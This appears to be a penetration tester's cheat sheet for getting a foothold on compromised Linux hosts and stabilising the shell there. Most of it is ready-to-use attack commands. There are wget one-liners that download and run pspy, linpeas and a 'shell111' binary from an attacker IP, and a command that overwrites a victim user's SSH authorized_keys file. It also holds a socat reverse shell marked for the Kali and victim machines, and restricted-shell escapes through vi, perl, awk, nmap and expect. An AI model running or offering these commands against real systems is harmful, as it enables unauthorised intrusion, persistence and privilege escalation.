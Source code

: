 Out of the gate.

python -c 'import pty; pty.spawn("/bin/bash")'
OR
python3 -c 'import pty; pty.spawn("/bin/bash")'
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp:/snap/bin
export TERM=xterm-256color
alias ll='ls -lsaht --color=auto'
Keyboard Shortcut: Ctrl + Z (Background Process.)
stty raw -echo ; fg ; reset
stty columns 200 rows 200
stty columns 150 rows 150

python -c 'import pty; pty.spawn("/bin/bash")' && export TERM=xterm-256color && alias ll='ls -lsaht --color=auto'
python3 -c 'import pty; pty.spawn("/bin/bash")' ; export TERM=xterm-256color ; alias ll='ls -lsaht --color=auto'

wget http://192.168.45.178:8000/pspy64 -O /dev/shm/pspy;chmod +x /dev/shm/pspy;wget http://192.168.45.178:8000/linpeas.sh -O /dev/shm/linpeas.sh;chmod +x /dev/shm/linpeas.sh;/dev/shm/pspy;
wget http://192.168.45.178:80/pspy64 -O /dev/shm/pspy;chmod +x /dev/shm/pspy;wget http://192.168.45.178:80/linpeas.sh -O /dev/shm/linpeas.sh;chmod +x /dev/shm/linpeas.sh;wget http://192.168.45.178:80/shell111 -O /dev/shm/shell111;chmod +x /dev/shm/shell111;/dev/shm/pspy;
wget http://192.168.45.178:80/shell111 -O /dev/shm/shell111;chmod +x /dev/shm/shell111;/dev/shm/shell80&
wget http://192.168.45.178:8000/authorized_keys -O /home/kathleen/.ssh/authorized_keys
http://192.168.45.178:3305/pspy64 -O /dev/shm/pspy;chmod +x /dev/shm/pspy;wget http://192.168.45.178:3305/linpeas.sh -O /dev/shm/linpeas.sh;chmod +x /dev/shm/linpeas.sh;/dev/shm/pspy;
wget http://10.10.14.8:8000/pspy64 -O /dev/shm/pspy;chmod +x /dev/shm/pspy;wget http://10.10.14.8:8000/linpeas.sh -O /dev/shm/linpeas.sh;chmod +x /dev/shm/linpeas.sh;/dev/shm/pspy;
/dev/shm/linpeas.sh

// Pimp out linux shell
which socat
socat file:`tty`,raw,echo=0 tcp-listen:4444 #On Kali Machine
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.49.71:4444 #On Victim Machine

(stty size)
 
* Don't forget that you can always set the terminal history to be infinite, and the keystroke scroll back. 

* Grab a valid tty.
* What OS are you on? Grab access to those binaries fast by exporting each environment variable. Debian/CentOS/FreeBSD
* Want a color terminal to easily tell apart file permissions? Directories? Files?
* Fastest way to list out the files in a directory, show size, show permissions, human readable.
* Make this shell stable.



Is this rbash (Restricted Bash)? PT1
$ vi
:set shell=/bin/sh
:shell

$ vim
:set shell=/bin/sh
:shell

Is this rbash (Restricted Bash)? PT2
(This requires ssh user-level access)
ssh user@127.0.0.1 "/bin/sh"
rm $HOME/.bashrc
exit
ssh user@127.0.0.1
(Bash Shell)

Is python present on the target machine?
python -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/sh")'

Is perl present on the target machine?
perl -e 'exec "/bin/bash";'
perl -e 'exec "/bin/sh";'

Is AWK present on the target machine?
awk 'BEGIN {system("/bin/bash -i")}'
awk 'BEGIN {system("/bin/sh -i")}'

Is ed present on the target machines?
ed
!sh

IRB Present on the target machine?
exec "/bin/sh"

Is Nmap present on the target machine?
nmap --interactive
nmap> !sh

Expect:

expect -v
  expect version 5.45.4
  
$ cat > /tmp/shell.sh <<EOF
#!/usr/bin/expect
spawn bash
interact
EOF

$ chmod u+x /tmp/shell.sh
$ /tmp/shell.sh
